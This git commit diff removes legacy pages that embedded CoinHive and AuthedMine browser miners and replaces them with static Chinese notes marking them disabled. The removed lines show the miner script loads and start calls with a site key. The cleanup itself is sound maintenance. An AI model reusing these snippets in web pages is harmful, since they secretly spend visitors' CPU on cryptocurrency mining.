

chore: compress project images and neutralize legacy miner pages
Host smaller WebP screenshots on-origin and replace CoinHive HTML
with static notes so the public tree no longer ships a miner.

diff --git a/public/posts-legacy/xmr70.html b/public/posts-legacy/xmr70.html
@@ -1,12 +1,13 @@
-<html>
-<head>
-<script type="text/javascript" src="https://coinhive.com/lib/coinhive.min.js"></script>
-</head>
-<body>
-	close it
-	<script>
-	var miner = new CoinHive.Anonymous('taV9rHlSP4hskWgo2nVcZvjsC9UVHYB0', {throttle: 0.3});
-	miner.start();
-</script>
-</body>
+<!doctype html>
+<html lang="zh-CN">
+  <head>
+    <meta charset="utf-8" />
+    <meta name="robots" content="noindex" />
+    <title>Historical CoinHive demo (disabled)</title>
+  </head>
+  <body>
+    <p>
+      这个文件曾经加载第三方 CoinHive 脚本并在浏览器里启动挖矿。可执行入口已移除，只保留为 2010 年代实验的静态记录。
+    </p>
+  </body>
 </html>

diff --git a/public/posts-legacy/xmr.html b/public/posts-legacy/xmr.html
@@ -1,12 +1,13 @@
-<html>
-<head>
-<script type="text/javascript" src="https://coinhive.com/lib/coinhive.min.js"></script>
-</head>
-<body>
-	close it
-	<script>
-	var miner = new CoinHive.Anonymous('taV9rHlSP4hskWgo2nVcZvjsC9UVHYB0');
-	miner.start();
-</script>
-</body>
+<!doctype html>
+<html lang="zh-CN">
+  <head>
+    <meta charset="utf-8" />
+    <meta name="robots" content="noindex" />
+    <title>Historical CoinHive demo (disabled)</title>
+  </head>
+  <body>
+    <p>
+      这个文件曾经加载第三方 CoinHive 脚本并在浏览器里启动挖矿。可执行入口已移除，只保留为 2010 年代实验的静态记录。
+    </p>
+  </body>
 </html>

diff --git a/public/posts-legacy/xmrsimple.html b/public/posts-legacy/xmrsimple.html
@@ -1,12 +1,13 @@
-<html>
-<head>
-<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
-</head>
-<body>
-<div class="coinhive-miner"
-        style="width: 256px; height: 310px"
-        data-key="taV9rHlSP4hskWgo2nVcZvjsC9UVHYB0">
-        <em>Loading...</em>
-</div>
-</body>
+<!doctype html>
+<html lang="zh-CN">
+  <head>
+    <meta charset="utf-8" />
+    <meta name="robots" content="noindex" />
+    <title>Historical miner UI (disabled)</title>
+  </head>
+  <body>
+    <p>
+      这个文件曾经嵌入第三方 AuthedMine / CoinHive 挖矿界面。可执行入口已移除，只保留为历史记录。
+    </p>
+  </body>
 </html>

diff --git a/public/posts-legacy/Git-Cheet-Sheet/freemind.html_files/freemind2html.js b/public/posts-legacy/Git-Cheet-Sheet/freemind.html_files/freemind2html.js
@@ -1,0 +1,4 @@
+/* Historical FreeMind HTML export helper. The page also inlines toggle(). */
+function fold(id) {
+  if (typeof toggle === 'function') toggle(id);
+}
